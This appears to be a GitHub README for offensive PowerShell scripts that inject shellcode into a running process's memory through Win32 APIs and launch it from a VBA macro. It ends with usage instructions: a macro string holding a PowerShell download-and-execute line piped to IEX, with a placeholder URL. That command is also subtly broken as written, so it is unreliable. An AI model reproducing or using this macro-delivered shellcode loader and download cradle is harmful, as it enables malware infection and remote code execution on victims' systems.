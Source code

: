 ### PowerShell

In this repository we have some scripts that describes the process to execute a shellcode in PowerShell.

- In InvokeWin32APIs.ps1, we learn how to import some Win32 APIs over C# code. 
- In ShellCodeLauncher.ps1, we implement that Win32 APIs over our current powershell session and use it to copy our shellcode in memory and inyect it over the execution flow of the current process.
- In VBAenvlauncher.ps1 we modify some parts of the script before to be succesfully launched in a VBA macro.

The method to use correctly this script is to use it with PSHTTPDownloader.vba, the str var must contian the follwoing line:

powershell (New-Object System.Net.WebClient).DownloadFile('\<URL\>', '\<OUTFILE\>') | IEX